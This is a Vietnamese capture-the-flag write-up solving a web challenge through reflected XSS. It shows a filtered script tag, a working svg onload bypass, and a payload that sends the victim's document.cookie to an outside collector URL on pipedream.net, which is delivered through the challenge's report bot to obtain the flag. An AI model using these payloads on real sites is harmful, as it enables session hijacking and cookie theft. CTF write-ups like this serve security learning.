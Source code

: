 # Web
## 1.Hi Hi Hi
    http://146.190.115.228:20109
### Solution:
+ Mình nhập thử text `hacked` thì thấy hiện trên Dom nên mình đoán có thể là lỗi reflect:
+ 
![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/325544380_1539785776490524_506576420518357102_n.png?stp=dst-png_p403x403&_nc_cat=110&ccb=1-7&_nc_sid=aee45a&_nc_ohc=mxRJjvm2h5sAX-IFnMw&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdShnEbKx5Gp4lBumSBFoVxAwb74bLspb0fMNVfKDYhvdw&oe=63EDEAC8)
+ Mình thử nhập `<script>alert(10)</script>` thì bị filter:
+ 
![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/325232288_1517370485416235_7328303388423511686_n.png?stp=dst-png_s240x240&_nc_cat=104&ccb=1-7&_nc_sid=aee45a&_nc_ohc=H8c6WsiYx8oAX-QqT_I&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdRiX6GujoIBAJpe-w_pNUJMuDinPcWTvP6VU6nypt-5YA&oe=63EDEFAB)
+ Sau mình dùng burpsuite thì thấy message in ra nằm trong thẻ div:
+ 
![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/324403300_562610902450716_1189522020715437705_n.png?stp=dst-png_p206x206&_nc_cat=108&ccb=1-7&_nc_sid=aee45a&_nc_ohc=6yIEw5U1lVIAX9zld-t&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdTY0ssYhl3oZNB1qfBO3-_ceuEbpJthnSPDJ7RMv_YsZg&oe=63EDE9DC)
+ Mình thử dùng thẻ svg `<svg onload="alert(10)"/>` thì được thật:
+ 
![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/325477432_2098078310381765_4736637555871183436_n.png?stp=dst-png_s320x320&_nc_cat=108&ccb=1-7&_nc_sid=aee45a&_nc_ohc=jKu7GXo4pP8AX9qvg-l&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdSkixswTyARzDg7zpDQLwZu4b0kxf1lCMFazZyQjhCN2A&oe=63EDF35D)
+ Nên mình thử lấy cookie của máy mình `<svg onload="window.location='https://eoudjoqqnbfym00.m.pipedream.net/?cookie='.concat(document.cookie)"/>` thi get duoc cookie:
+ 
![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/323534900_8642520609151521_3244213864135894936_n.png?stp=dst-png_p206x206&_nc_cat=108&ccb=1-7&_nc_sid=aee45a&_nc_ohc=lRuhKcBSIhoAX97nNtA&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdQ6GC-6hq-578_lPfn9EAdr3iu_mZKfmt4P1PExbJeDzA&oe=63EDCE99)
+ Nên mình thử gửi report luôn payload:
`http://127.0.0.1:13337/?message=http://146.190.115.228:20109/?message=%3Csvg+onload%3D%22window.location%3D%27https%3A%2F%2Feoudjoqqnbfym00.m.pipedream.net%2F%3Fcookie%3D%27.concat%28document.cookie%29%22%2F%3E` thì nhận được flag.

![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/325683778_853163225933721_2454076518486329042_n.png?stp=dst-png_p206x206&_nc_cat=110&ccb=1-7&_nc_sid=aee45a&_nc_ohc=P1Ocdj5eECoAX8E_sJb&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdQxmVbprZ3IDsyaHAJItwRZj36LoTcpkwy5tE0aWTvcgg&oe=63EDD4F2)

> Flag: KCSC{T3T_TU1_3_T13P_Hmmmmmmmm}



